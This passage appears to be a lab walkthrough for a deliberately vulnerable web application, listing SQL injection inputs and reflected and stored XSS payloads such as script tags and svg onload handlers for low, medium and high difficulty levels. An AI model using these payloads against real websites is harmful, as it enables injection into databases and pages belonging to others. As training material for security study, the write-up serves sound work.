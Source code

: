 Medium:

{% highlight sql %}
id=1 and 1 != 2 &Submit=Submit in burp
{% endhighlight %}

High:

{% highlight sql %}
1' and '' = '
{% endhighlight %}


#XSS Reflected

Low:

<script>alert(1)</script>

Medium:

<svg onload="alert(1)">

High:

<a href="#" onmouseover="alert(1)">adf</a>

#XSS Stored

Low:

Message: 

{% highlight bash %}
<script>alert(1)</script>
{% endhighlight %}

Medium:

Message: 
{% highlight html %}
<svg onload="alert(1)">
{% endhighlight %}

High:

Message: 
{% highlight html %}
<a href="#" onmouseover="alert(1)">adf</a>
{% endhighlight %}
